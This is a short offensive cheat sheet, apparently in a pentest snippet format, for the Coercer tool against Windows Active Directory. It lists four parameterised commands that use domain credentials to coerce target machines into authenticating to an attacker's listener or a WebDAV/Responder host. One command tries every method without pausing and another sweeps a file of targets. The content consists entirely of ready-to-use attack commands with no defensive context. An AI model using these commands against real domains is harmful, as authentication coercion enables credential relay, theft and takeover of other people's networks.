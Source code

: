 # Coercer

% adcs, certificate, windows, Active directory, template

## Coercer - try each method no pause
#plateform/linux #target/remote #cat/ATTACK
```
coerce coerce -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> <targetIp> --always-continue
```

## Coercer - try each method to coerce
#plateform/linux #target/remote #cat/RECON
```
coerce coerce -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> <targetIp> 
```

## Coercer - Webdav
#plateform/linux #target/remote #cat/RECON
```
coerce coerce -d '<domain>' -u '<user>' -p '<password>' --webdav-host '<ResponderMachineName>' <targetIp> 
```

## Coercer - List vulns many targets
#plateform/linux #target/remote #cat/RECON
```
coerce coerce -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> --targets-file <PathToTargetFile> 
```
